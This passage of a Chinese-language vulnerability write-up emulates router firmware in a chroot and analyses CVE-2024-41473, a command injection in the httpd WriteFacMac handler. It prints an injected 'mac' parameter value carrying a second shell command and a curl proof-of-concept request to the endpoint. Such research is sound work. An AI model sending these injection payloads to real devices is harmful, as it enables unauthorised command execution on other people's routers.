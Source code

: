然后挂载 proc  
 、 dev  
 ，最后 chroot  
 即可：  
```
root@debian-mipsel:~# mount -t proc /proc ./squashfs-root/procroot@debian-mipsel:~# mount -o bind /dev ./squashfs-root/devroot@debian-mipsel:~# chroot ./squashfs-root/ sh# lsbin                 lib                 sysdev                 media               tmpetc                 mnt                 usretc_ro              proc                var
```  
  
运行 bin/httpd  
 成功搭建环境。  
  
**3 漏洞分析**  
### 3.1 CVE-2024-41473  
  
漏洞位于 WriteFacMac  
 函数中：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT0aiarbc9dIrcb3AM5BVicDCDRptwe2evHphhqpqRJx3CicDHDlIBs9Uc4guPhlVcS8MibmaQpZkoRibaA/640?wx_fmt=png&from=appmsg "")  
  
图6 writeFacMac源码  
  
websGetVar(a1, "mac", "00:01:02:11:22:33")  
代码从 HTTP 请求中获取名为 mac  
 的参数。如果参数不存在，则使用默认值 "00:01:02:11:22:33"  
。  
  
doSystemCmd("cfm mac %s", Var)  
代码使用格式化字符串 cfm mac %s  
 和变量 Var  
 生成命令，然后调用 doSystemCmd  
 函数执行生成的命令。  
  
doSystemCmd  
 函数看起来是一个执行系统命令的函数，并且通过格式化字符串将 Var  
 直接插入命令中。如果 Var  
 中包含恶意用户输入，可能会导致命令注入漏洞。例如，用户可以通过以下方式提交恶意 mac  
 参数：  
```
mac=00:01:02:11:22:33; ifconfig /
```  
  
这种情况下生成的命令将会导致命令执行：  
```
cfm mac 00:01:02:11:22:33; ifconfig /
```  
  
**漏洞复现**  
```
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "mac=%3Bifconfig" "http://192.168.100.2/goform/WriteFacMac"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT0aiarbc9dIrcb3AM5BVicDCD7SXTnpATpoR7MDWibBawFY2b7o2icuMVExhziapHCp6EGRlIkVRCgRuJA/640?wx_fmt=png&from=appmsg "")  
  